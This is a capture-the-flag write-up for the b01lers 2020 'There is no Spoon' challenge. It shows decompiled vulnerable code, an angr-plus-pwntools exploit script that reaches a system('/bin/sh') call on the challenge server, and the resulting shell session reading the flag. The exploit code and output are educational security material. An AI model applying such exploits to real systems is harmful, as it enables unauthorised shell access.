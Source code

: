 # b01lers bootcamp CTF 2020

## There is no Spoon

> 100
>
> Neo: bend reality, and understand the truth of the matrix.
> 
> `nc chal.ctf.b01lers.com 1006`
> 
> [thereisnospoon](thereisnospoon)  
> [thereisnospoon.c](thereisnospoon.c)

Tags: _pwn_ _x86-64_ _remote-shell_ _bof_ _angr_


## Summary

I lazied my way out of this one and let [angr.io](angr.io) do all the work.  6 second solve.  Zero sweat.
 

## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Anything goes but shellcode.


### Decompile with Ghidra

```c
undefined8 main(void)
{
  ssize_t sVar1;
  size_t __size;
  char local_128 [256];
  long local_28;
  uint *local_20;
  void *local_18;
  int local_c;
  
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  local_c = 0x100;
  printf("Neo, enter your matrix: ");
  sVar1 = read(0,local_128,(long)local_c);
  local_c = (int)sVar1;
  __size = strlen(local_128);
  local_18 = malloc(__size);
  local_20 = (uint *)malloc(4);
  *local_20 = 0xff;
  printf("Reality: %d\n",(ulong)*local_20);
  printf("Make your choice: ");
  sVar1 = read(0,local_18,(long)local_c);
  local_c = (int)sVar1;
  puts("Now bend reality. Remember: there is no spoon.");
  local_28 = xor((long)local_18,(long)local_128,local_c);
  printf("Result: %s\n",local_28);
  printf("Reality: %d\n",(ulong)*local_20);
  if (*local_20 != 0xff) {
    system("/bin/sh");
  }
  return 0;
}
```

We just need to figure out the correct input to change `*local_20`, _or do we?_

> _Why are we looking at the decompile when the source was provided?_
> 
> Because we need to tell _angr_ what to search for:

```assembly
004013d2 e8 e9 fc        CALL       system
         ff ff
```

`0x4013d2` is our target.


## Exploit

```python
#!/usr/bin/env python3

import angr, time, io
from pwn import *

FIND_ADDR=0x4013d2
t=time.time()
bits = open('./thereisnospoon','rb').read()
proj = angr.Project(io.BytesIO(bits),auto_load_libs=False)
state = proj.factory.entry_state()
simgr = proj.factory.simulation_manager(state)
simgr.use_technique(angr.exploration_techniques.DFS())
simgr.explore(find=FIND_ADDR)
log.info(str(time.time() - t) + ' seconds')

binary = context.binary = ELF('./thereisnospoon')
context.log_level = 'INFO'

if not args.REMOTE:
    context.log_file = 'local.log'
    p = process(binary.path)
else:
    context.log_file = 'remote.log'
    p = remote('chal.ctf.b01lers.com', 1006)

p.send(simgr.found[0].posix.dumps(0))
p.interactive()
```

Not a lot here.  Set the find address to the address calling `system`, wait 6 seconds for _angr_ to do all the work for us, then just pass that along.


Output:

```bash
# ./exploit.py REMOTE=1
[*] 5.977146625518799 seconds
INFO    | 2020-10-04 21:05:10,983 | pwnlib.exploit | 5.977146625518799 seconds
[*] '/pwd/datajerk/b01lersbootcampctf2020/there_is_no_spoon/thereisnospoon'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
INFO    | 2020-10-04 21:05:11,041 | pwnlib.elf.elf | '/pwd/datajerk/b01lersbootcampctf2020/there_is_no_spoon/thereisnospoon'
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
[|] Opening connection to chal.ctf.b01lers.com on port 1006
INFO    | 2020-10-04 21:05:11,045 | pwnlib.tubes.remote.remote.140324877945632 | Opening connection to chal.ctf.b01lers.com Opening connection to chal.ctf.b01lers.com on port 1006: Trying 104.197.187.199
INFO    | 2020-10-04 21:05:11,100 | pwnlib.tubes.remote.remote.140324877945632 | Opening connection to chal.ctf.b01lers.[+] Opening connection to chal.ctf.b01lers.com on port 1006: Done
INFO    | 2020-10-04 21:05:11,169 | pwnlib.tubes.remote.remote.140324877945632 | Opening connection to chal.ctf.b01lers.com on port 1006: Done
[*] Switching to interactive mode
INFO    | 2020-10-04 21:05:11,171 | pwnlib.tubes.remote.remote.140324877945632 | Switching to interactive mode
Neo, enter your matrix: Reality: 255
Make your choice: Now bend reality. Remember: there is no spoon.
Result:
Reality: 0
$ id
uid=1000(strlenvsread) gid=1000(strlenvsread) groups=1000(strlenvsread)
$ ls -l
total 36
-r-xr-x--- 1 root strlenvsread    98 Oct  2 18:33 Makefile
-r--r----- 1 root strlenvsread    30 Oct  2 18:33 flag.txt
-r-xr-x--- 1 root strlenvsread 17056 Oct  3 04:08 strlenvsread
-r-xr-x--- 1 root strlenvsread   912 Oct  2 18:33 strlenvsread.c
-r-xr-x--- 1 root strlenvsread    53 Oct  2 18:33 wrapper.sh
$ cat flag.txt
flag{l0tz_0f_confUsi0n_vulnz}
```
